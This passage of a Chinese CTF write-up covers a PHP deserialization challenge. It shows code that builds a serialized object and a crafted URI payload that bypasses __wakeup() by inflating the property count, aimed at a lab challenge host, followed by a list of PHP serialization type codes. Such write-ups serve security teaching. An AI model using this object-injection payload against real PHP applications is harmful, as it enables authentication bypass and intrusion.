 所以直接将它的代码复制出来，再创建一个`index.php`，将其粘贴进去。

```php
<?php
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }
}

$res = new Name('admin',100);
var_dump(serialize($res));
?>
```

结果是
```
O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```

又因为私有变量需要修改，所以更改为


!!! note "在反序列化时，当前属性个数大于实际属性个数时，就会跳过`__wakeup()`，去执行`__destruct`"

又因为需要绕过`__wakeup()`函数，所以我们把属性个数改成大于实际属性的个数


最后的请求URI
```
http://02801fc4-349c-428a-bb2c-2015f2934d2b.node5.buuoj.cn:81/?select=O:4:%22Name%22:3:{s:14:%22%00Name%00username%22;s:5:%22admin%22;s:14:%22%00Name%00password%22;i:100;}%22
```


#### challenge

上课老师讲的一个例题，主要核心思想就是利用php这种弱类型的语言。构造的exp是利用引用，使得两个变量一模一样，从而达到目的。

!!! note "类型"
        a - array
        b - boolean
        d - double
        i - integer
        o - common object
        r - reference
        s - non-escaped binary string
        S - escaped binary string
        C - custom object
        O - class
        N - null
        R - pointer reference
        U - unicode string
